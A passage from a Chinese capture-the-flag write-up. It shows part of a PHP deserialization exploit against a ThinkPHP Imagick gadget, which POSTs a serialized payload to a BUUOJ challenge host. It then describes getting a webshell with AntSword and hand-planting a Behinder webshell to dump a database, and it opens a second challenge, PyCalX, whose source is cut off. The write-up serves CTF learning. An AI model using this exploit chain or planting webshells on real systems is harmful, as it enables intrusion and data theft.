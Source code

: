```php
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));

    $curl = curl_init();
    curl_setopt_array($curl, array(
        CURLOPT_URL => "http://914146f1-7d08-4a0a-9659-c143df1d68e1.node4.buuoj.cn:81/",
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_ENCODING => "",
        CURLOPT_MAXREDIRS => 10,
        CURLOPT_TIMEOUT => 3,
        CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
        CURLOPT_CUSTOMREQUEST => "POST",
        CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
        CURLOPT_HTTPHEADER => array(
            "cache-control: no-cache"
        ),
    ));
    $response = curl_exec($curl);
    $err = curl_error($curl);
    curl_close($curl);
    if ($err) {
        echo "cURL Error #:" . $err;
    } else {
        echo $response;
    }
}
```

其中curl的代码是用postman生成的 ~~（postman打钱）~~一套连招直接带走，用蚁剑连接之后发现根目录下没有flag，反而是一个flag.sh

![image-20211219194548981](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219194548981.png)

我们还得连上数据库看看

![image-20211219195443288](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219195443288.png)

但是蚁剑自带的添加失败，直接手动写一个冰蝎的🐎

![image-20211219195808735](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219195808735.png)

直接查看也是没有，但是可以用它的导出数据库的功能得到数据

参考：[wp1](https://www.zhaoj.in/read-6859.html#WEB3_easytp)  [wp2](http://www.yang99.top/index.php/archives/48/#easytp)

{{% /spoiler %}}

{{% spoiler "PyCalX 1&2  |  " %}}

首先是1

```python
#!/usr/bin/env python3
import cgi;
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

OK_200 = """Content-type: text/html

<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<center>
<title>PyCalx</title>
```